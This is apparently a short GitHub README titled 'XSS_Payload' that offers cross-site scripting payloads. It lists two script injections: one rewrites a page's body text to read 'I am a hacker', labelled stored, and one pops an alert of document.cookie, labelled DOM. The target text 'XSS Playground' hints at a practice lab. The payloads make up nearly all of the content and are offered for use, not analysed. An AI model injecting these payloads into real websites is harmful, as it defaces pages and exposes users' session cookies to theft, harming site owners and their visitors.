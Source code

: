 # XSS_Payload
perfect xss payload stored and reflected and dom and some change in the page

<a target="_blank" rel="noopener noreferrer nofollow" href="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c"><img src="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c" data-canonical-src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social" style="max-width: 100%;"></a>

# Payloads
<code>
<script>document.body.innerHTML = document.body.innerHTML.replace("XSS Playground", "I am a hacker");</script> to change the main web page text  (STORED
<script>alert(document.cookie);</script> to show your cookie (DOM)
</code>
